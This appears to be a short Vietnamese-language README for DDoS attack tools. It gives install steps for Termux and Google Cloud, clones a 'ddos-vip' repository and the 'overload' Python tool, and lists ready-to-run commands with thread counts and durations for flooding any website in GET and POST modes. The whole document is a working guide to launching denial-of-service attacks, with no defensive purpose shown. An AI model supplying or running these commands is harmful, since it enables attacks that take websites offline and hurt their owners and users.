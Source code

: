 # Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyxq.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run ddosbyxq.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web :))

java ddosbyxq.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập

├───TIME:1000

└───THREADS:20000

└───URL:link web
